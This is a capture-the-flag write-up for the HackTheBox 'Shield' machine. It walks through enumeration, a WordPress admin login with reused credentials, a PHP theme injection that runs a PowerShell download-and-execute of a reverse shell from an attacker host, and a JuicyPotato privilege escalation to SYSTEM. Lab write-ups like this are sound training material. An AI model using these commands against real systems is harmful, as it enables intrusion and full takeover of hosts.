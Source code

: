 # HackTheBox - Shield Writeup


Box author | {{< person url="https://app.hackthebox.com/users/31190" name="TRX" picture="https://www.hackthebox.com/storage/avatars/f7a696a1331031242f713514b7a4621a.png" >}}

<!--more-->

## Enumeration

- scan top 1000 ports
- the result

```bash
nmap -sC -sV -oN nmap/initial 10.10.10.29
```
![nmap initial scan](1.png "nmap initial scan")

- scan all ports
- the result

```bash
nmap -sC -sV -p- -oN nmap/all_ports 10.10.10.29
```

![nmap allports scan](2.png "nmap allports scan")

- all scan still the same
- open ports
	- 80 / http
	- 3306 / mysql

## WebPage

- Just default windows server page

![IIS default page](3.png "IIS default page")

### Gobuster

- Using gobuster to find any hidden directory
- the result

![gobuster](4.png "gobuster")

### WordPress

- the result show this server have `wordpress` install
- as we know, the wordpress login path is `/wp-admin`
- let's take a look

### Admin Login

- Try to login as admin with credentials from previous box `vaccine`
- Success

![wordpress admin](7.png "wordpress admin")

## Foothold/Gaining Access

### WordPress Theme Injection
- Let's try get the reverse shell by injected the theme
- I'm gonna use this theme "GutenBooster" 
  - and the shell I'm gonna use [Nishang](https://github.com/samratashok/nishang)
- Now, I'm gonna put command in the `404.php`. 
- Which is a 404 template
- Source
  - [Wordpress: Reverse Shell](https://www.hackingarticles.in/wordpress-reverse-shell/)

```php
<?php
exec('powershell IEX(IWR http://10.10.16.13:8000/rev.ps1 -UseBasicParsing)')
?>
```

- This command will download the reverse shell and execute it

![get shell](8.png "get shell")

- Well, the reverse shell is succefully execute 

### SeImpersonatePrivilege

- everytime you've got `powershell reverse shell`
- make sure to run
  - `whoami /all`

- The result

![SeImpersonatePrivilege token](9.png "SeImpersonatePrivilege token")

- Looks like `SeImpersonatePrivilege is enable `
- We can privesc by using `juicy potato`
- Source
  - [JuicyPotato - Github](https://github.com/ohpe/juicy-potato)
- download the binary into `local machine`. Then, upload into `victim machine`
- via this command
```powershell
IWR http://10.10.16.34:8000/JuicyPotato.exe -outfile again_gimme.exe
```

- then run the binary.
- the result

![juicy potato](12.png "juicy potato")

## Privilege Escalation

- First, I'm gonna make `bat` file with powershell command on it.
- I'm called the file `yo_my.bat`
- the command:
- Source
  - [IppSec - Making bat file](https://youtu.be/1ae64CdwLHE?t=2563)

```powershell
powershell "(IEX(IWR http://10.10.16.34:8000/rev.ps1 -UseBasicParsing))"
```

### POTATO

- I'm gonna run `again_gimme.exe` again with this flag:
  - `./again_gimme.exe -t * -p yo_my.bat -l 9902`

- the result

![juicy potato failed](13.png "juicy potato failed")

- it is failed but we can try with more `CLSID`
- Source
  - [IppSec - JuicyPotato fails with the default CLSID, changing it up to get it working.](https://youtube.com/watch?v=1ae64CdwLHE&t=2675)
  - [Windows CLSID](http://ohpe.it/juicy-potato/CLSID/)
- before we start using the CLSID. We're need to know what type of `OS version` this machine running on
- by using this command:
- `(Get-WmiObject Win32_OperatingSystem).Caption`
- the result

![check OS version](14.png "check OS version")

- Now, we're need to pick [Windows Server 2016 Standard CLSID](http://ohpe.it/juicy-potato/CLSID/Windows_Server_2016_Standard/) 
- I'm gonna try with `wpnservice CLSID`
- I'm gonna run this command

```powershell
.\again_gimme.exe -t * -p yo_my.bat -l 9902 -c '{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381}'
```

{{< admonition warning "Note" >}}
Make sure you're running the `nc` for listening the connection </br>
**REMEMBER**: The powershell command in the `bat file` was downloading another reverse shell file called `rev.ps1`.
in that file. I'm listening on 9901. If you listen on the other port. Just change the port on that file.
{{< /admonition >}}


- the result

![shell as nt authority\system](15.png "shell as nt authority\system")

- we've got the root flag

![root flag](16.png "root flag")

## Conclusion
I've learned a lot today. Do not put any credentials on the exposure machine to the hacker or non-secure machine. Even tho it's happened, quickly change the password. I'm also introducing a bunch of tools for windows pentest/hack. Lastly, always update and patch the machine.

I have a fun time doing this machine and I hope you guys do too. Bye ;)
